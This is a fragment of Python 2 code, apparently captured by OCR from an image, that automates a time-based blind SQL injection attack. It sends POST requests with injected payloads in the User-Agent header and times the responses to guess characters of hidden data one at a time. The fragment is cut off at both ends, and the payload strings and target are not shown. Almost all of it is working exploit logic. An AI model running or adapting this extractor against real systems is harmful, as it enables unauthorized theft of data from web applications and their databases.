 ```
					num2 = 0
					num3 = 0
	if(num1 == 0 and num2 == 1):
		num = 65
		num += 13
		payload = txt1+str(i)+txt2+str(num)+txt4
		headers = {'User-Agent': payload}
		time1 = time.time()
		req = requests.post(url = url,data =key,headers = headers)
		time2 = time.time()
		if(time2 - time1 >=2):
			num += 6
		else:
			num -= 7
		payload = txt1+str(i)+txt2+str(num)+txt4
		headers = {'User-Agent': payload}
		time1 = time.time()
		req = requests.post(url = url,data =key,headers = headers)
		time2 = time.time()
		if(time2 - time1 >=2):
			num += 3
		else:
			num -= 3
		payload = txt1+str(i)+txt2+str(num)+txt4
		headers = {'User-Agent': payload}
		time1 = time.time()
		req = requests.post(url = url,data =key,headers = headers)
		time2 = time.time()
		if(time2 - time1 <=2):
			num -= 3
		if((num == 74) or (num == 87)):
			for j in range(num,num+4):
				payload = txt1+str(i)+txt3+str(j)+txt4
				headers = {'User-Agent': payload}
				time1 = time.time()
				req = requests.post(url = url,data =key,headers = headers)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
		else:
			for j in range(num,num+3):
				payload = txt1+str(i)+txt3+str(j)+txt4
				headers = {'User-Agent': payload}
				time1 = time.time()
				req = requests.post(url = url,data =key,headers = headers)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
	if(num2 == 0 and num3 == 1):
		num =48
		num += 5
		payload = txt1+str(i)+txt2+str(num)+txt4
		time1 = time.time()
		req = requests.get(url = url)
		time2 = time.time()
```